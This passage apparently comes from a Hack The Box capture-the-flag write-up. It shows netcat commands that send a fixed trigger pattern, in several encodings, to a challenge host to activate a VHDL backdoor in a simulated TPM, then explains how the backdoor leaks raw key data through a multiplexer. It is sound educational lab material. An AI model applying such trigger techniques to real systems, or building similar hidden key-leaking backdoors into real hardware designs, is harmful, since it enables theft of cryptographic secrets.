 ### Step 2: Initial Connection Test
```bash
# Establish connection to target
nc 94.237.55.43 38407
```

Expected response: The service should accept the connection and wait for input.

### Step 3: Backdoor Trigger Execution
```bash
# Send the exact backdoor pattern
echo "1111111111101001" | nc 94.237.55.43 38407
```

**Alternative Interactive Method**:
```bash
# Connect interactively
nc 94.237.55.43 38407
# Type the pattern manually:
1111111111101001
# Press Enter
```

### Step 4: Flag Extraction

Upon sending the correct pattern, the system should respond with the flag in HTB{} format.

## Command Execution Walkthrough

### Complete Solution Commands

```bash
# Method 1: Direct pipe (Recommended)
echo "1111111111101001" | nc 94.237.55.43 38407

# Method 2: Interactive session
nc 94.237.55.43 38407
# Then type: 1111111111101001

# Method 3: Alternative formats (if binary string fails)
echo "65513" | nc 94.237.55.43 38407        # Decimal
echo "FFE9" | nc 94.237.55.43 38407         # Hexadecimal
printf "\xFF\xE9" | nc 94.237.55.43 38407   # Raw bytes
```

## Technical Insights

### Why This Backdoor Works

1. **Hardware-Level Backdoor**: Embedded directly in the VHDL logic, making it invisible to software-level security scans
2. **Multiplexer Bypass**: Uses hardware multiplexing to route raw key data instead of encrypted output
3. **Constant Pattern Matching**: Simple but effective trigger mechanism
4. **TPM Compromise**: Exploits the trusted nature of TPM modules
